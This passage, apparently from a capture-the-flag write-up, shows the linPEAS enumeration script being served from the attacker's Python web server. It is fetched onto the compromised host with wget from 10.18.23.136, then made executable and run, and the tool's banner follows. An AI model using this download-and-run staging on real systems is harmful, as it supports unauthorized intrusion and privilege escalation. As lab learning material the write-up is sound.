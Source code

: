 Started a python server to upload linpeas.sh
```
python -m http.server
```

Then on the remote
```
wget 10.18.23.136/linpeas.sh
```

```chmod +x linpeas.sh``` and execute
```


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                                                                                     
    |---------------------------------------------------------------------------------|                                                                                                                                                     
    |         Get the latest version    :     https://github.com/sponsors/carlospolop |                                                                                                                                                     
    |         Follow on Twitter         :     @carlospolopm                           |                                                                                                                                                     
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                                                     
    |---------------------------------------------------------------------------------|                                                                                                                                                     
    |                                 Thank you!                                      |                                                                                                                                                     
    \---------------------------------------------------------------------------------/                                                                                                                                                     
          linpeas-ng by carlospolop                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                                                                                                                                                                              
                                                                                                                                                                                                                                            